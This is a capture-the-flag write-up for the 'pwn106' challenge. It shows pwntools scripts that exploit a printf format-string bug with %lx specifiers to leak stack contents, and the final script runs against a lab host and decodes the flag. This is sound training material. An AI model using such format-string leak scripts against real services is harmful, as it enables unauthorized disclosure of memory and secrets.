


# Challenge Name: pwn106 

**Category:** pwn

# Approach

Let's try run the program

We cannot overflow the program . Let's try give %x as input
we received an address. This is printf vulnerabilies


Looking at the calling convention for 64bit linux





We can see that the flag is being in the code. So lets try to reveal the flag by using %lx to search the position of the flag

```
from pwn import *

context.binary = binary = ELF("./pwn106-user-1644300441063.pwn106-user")

p = process()

payload = "%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx"

p.recv()
p.sendline(payload)
print(p.recv())
```
We get the output
```
b'\nThanks 7ffc99b72230.0.0.ff.7fb54cfb4b30.5b585"8587b4d4854.6465725f67616c66.58585d6465746361.7d58.2e786c25286c252e786c25.2e786
```
We can see that the 5b5858587b4d4854.6465725f67616c66.58585d6465746361 is in the position of 6,7 ant 8th. So we change our script 

```
from pwn import *

context.binary = binary = ELF("./pwn106-user-1644300441063.pwn106-user")

p = process()

payload = "%6$lx.%7$lx.%8$lx"

p.recv()
p.sendline(payload)
print(p.recv())
```

```
from pwn import *

context.binary = binary = ELF("./pwn106-user-1644300441063.pwn106-user")

p = remote("10.10.126.95",9006)

payload = "%6$lx.%7$lx.%8$lx"

p.recv()
p.sendline(payload)
print(p.recv())
```

# Last exploit
```
from pwn import *

context.binary = binary = ELF("./pwn106-user-1644300441063.pwn106-user")

p = remote("10.10.126.95",9006)
# p = process()

payload = "%6$lx.%7$lx.%8$lx.%9$lx.%10$lx.%11$lx"

p.recv()
p.recv()
p.sendline(payload)
output = p.recv().strip().split(b" ")[1].split(b".")

flag = ""
for word in output:
	flag += bytes.fromhex(word.decode("utf-8"))[::-1].decode("utf-8")

print(flag)
```

Here we change to payload to take till position 11th since the flag is long